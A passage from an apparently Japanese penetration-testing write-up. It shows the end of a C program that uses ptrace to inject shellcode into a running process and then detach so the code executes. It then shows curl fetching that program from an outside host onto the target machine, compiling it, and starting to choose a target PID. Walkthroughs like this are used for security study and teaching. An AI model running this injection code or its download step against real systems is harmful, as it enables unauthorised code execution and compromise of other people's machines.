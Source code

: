 ```c
        perror("ptrace(GETREGS):");
        exit(1);
    }

    /* Inject code into current RPI position */

    printf("+ Injecting shell code at %p\n", (void *)regs.rip);
    inject_data(target, shellcode, (void *)regs.rip, SHELLCODE_SIZE);
    regs.rip += 2;
    printf("+ Setting instruction pointer to %p\n", (void *)regs.rip);

    if ((ptrace(PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
        perror("ptrace(GETREGS):");
        exit(1);
    }
    printf("+ Run it!\n");

    if ((ptrace(PTRACE_DETACH, target, NULL, NULL)) < 0)
    {
        perror("ptrace(DETACH):");
        exit(1);
    }
    return 0;
}
```

</div>

<br>
　標的マシン上で上記C言語プログラムを記述してもよいのですが、私は外部マシン上でC言語プログラムを記述しそれを標的マシン上でダウンロードしました。  

<div class="md-code" style="width:100%">


```
root@533e4e3fac01:/# curl http://164.xxx.yyy.xxx/inject.c -o inject.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2185  100  2185    0     0   6207      0 --:--:-- --:--:-- --:--:--  6189
```

</div>

<br>
　プログラムを標的マシン上に配置できたらコンパイルをします。  

<div class="md-code" style="width:100%">

```
root@533e4e3fac01:/# gcc inject.c -o inject
```

</div>

<br>
　シェルコードのインジェクション対象とするプロセスのPID（`19477`）を取得します。  
